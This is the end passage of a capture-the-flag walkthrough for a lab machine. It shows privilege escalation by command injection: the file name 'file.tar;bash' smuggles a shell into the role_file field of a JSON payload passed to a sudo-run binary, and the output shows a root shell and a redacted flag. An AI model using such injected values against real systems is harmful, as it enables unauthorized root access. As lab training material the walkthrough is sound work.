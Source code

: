 We know the injection point is **`role_file`**. We need to perform command injection from **`role_file`** now. I renamed my file from **`file.tar`** to **`file.tar;bash`**. Now, I will adjust the payload in **`exploit.json`** accordingly.

```json
{
  "run":{
        "action":"install",
        "role_file":"file.tar;bash"
        },
  "auth_code":"UHI75GHINKOP"
}
```

I ran **`sudo /opt/runner2/runner2 exploit.json`** again.

```json
root@intuition:/home/lopez# cd ~
root@intuition:~# cat root.txt
[ROOT_FLAG_R3DACT3D]
root@intuition:~# id
uid=0(root) gid=0(root) groups=0(root)
```

Boom! We now have root access. 🎉🚀

## Conclusion

Thanks for following along with my walkthrough! Using various tools and techniques, we successfully identified vulnerabilities, exploited them, and gained root access. Keep exploring and happy hacking!
